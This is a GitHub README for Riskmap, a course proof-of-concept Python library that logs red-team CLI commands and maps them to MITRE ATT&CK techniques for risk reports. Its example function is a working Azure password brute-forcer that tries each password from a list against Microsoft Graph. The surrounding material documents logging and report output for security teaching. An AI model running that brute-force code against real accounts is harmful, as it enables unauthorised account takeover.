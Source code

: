 # Riskmap

Python utility for red teaming and penetration testing CLI tools to map commands and modules to the MITRE ATT&CK framework. A sample CLI program has been provided in [riskcli.py](./samples/riskcli/riskcli.py)

## Basic Concept

This library provides a `AttckMapper` class with a `mapping` decorator that can be used on functions that perform an offensive technique.

Unless you plan to run the sample tools, install

### _Example function:_

```python
@app.command()
@atmap.mapping(enterprise=["T1110.001", "M1032"])
def azbrute(
    username: str = typer.Option(..., "-u", help="Username to bruteforce"),
    passList: Path = typer.Option(..., "-p", help="Path to password list"),
):
    """Bruteforces password for an Azure account"""
    validCred = {"user": username, "pass": None}
    with open(passList, "r", encoding="latin-1") as passes:
        for pwd in passes.read().splitlines():
            login = UsernamePasswordCredential(
                "1950a258-227b-4e31-a9cf-717495945fc2", username, pwd
            )
            try:
                token = login.get_token("https://graph.microsoft.com/.default")
                validCred["pass"] = pwd
            except ClientAuthenticationError as e:
                pass

    if not validCred["pass"]:
        raise CommandUnsuccessfulError(f"Brute force for {username} unsuccessful")
    typer.echo(f"\nCredential found! - {validCred}\n")
```

The decorator function will perform as normal and actions will be logged. When a report is generated, the IDs are looked up to provide a comprehensive description of what events took place, the techniques involved, and any additional references found in the MITRE matrices (CWE, CAPEC, etc).

If the `azbrute` command in the example function is successful, the following line will be logged:\

`{"command": "azbrute", "startTime": "11/24/2020 08:14:26", "endTime": "11/24/2020 08:14:27", "args": [], "kwargs": {"username": "<username>", "passList": "passlist.txt"}, "details": {}, "mapping": {"enterprise": ["T1110.001", "M1032"], "mobile": [], "ics": []}} `

### _Report Generation Example:_

```python
@app.command()
def genreport(path: Path = typer.Argument(..., help="Path to riskmap log")):
    rrg = RiskmapReportGenerator(path)
    rrg.to_excel("output-report.xlsx")
```

|     | command | startTime           | endTime             | args | kwargs                                       | details | mapping                                                     | extended_lookup                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| --- | ------- | ------------------- | ------------------- | ---- | -------------------------------------------- | ------- | ----------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1   | azbrute | 11/24/2020 08:14:26 | 11/24/2020 08:14:27 |      | username: username<br>passList: passlist.txt |         | enterprise: ['T1110.001', 'M1032']<br>mobile: []<br>ics: [] | T1110.001: https://attack.mitre.org/wiki/Technique/T1110/001<br>CAPEC-49: https://capec.mitre.org/data/definitions/49.html<br>CWE-521: http://cwe.mitre.org/data/definitions/521.html<br>CWE-262: http://cwe.mitre.org/data/definitions/262.html<br>CWE-263: http://cwe.mitre.org/data/definitions/263.html<br>CWE-257: http://cwe.mitre.org/data/definitions/257.html<br>CWE-654: http://cwe.mitre.org/data/definitions/654.html<br>CWE-307: http://cwe.mitre.org/data/definitions/307.html<br>CWE-308: http://cwe.mitre.org/data/definitions/308.html<br>CWE-309: http://cwe.mitre.org/data/definitions/309.html<br>M1032: https://attack.mitre.org/mitigations/M1032 |

This library has been tested with the [Typer](https://typer.tiangolo.com/) and therefore should also work with the [Click](https://github.com/pallets/click) library as well. By all accounts, the decorator should work with any normal synchronous function. This library was developed with [Poetry](https://python-poetry.org/). In order to run the `riskcli.py`, you must also install the development libraries with `poetry install`.

### Note

**_This library was written for Dakota State University's Managing Security Risk course and may not be maintained in the future. This is a proof-of-concept._**
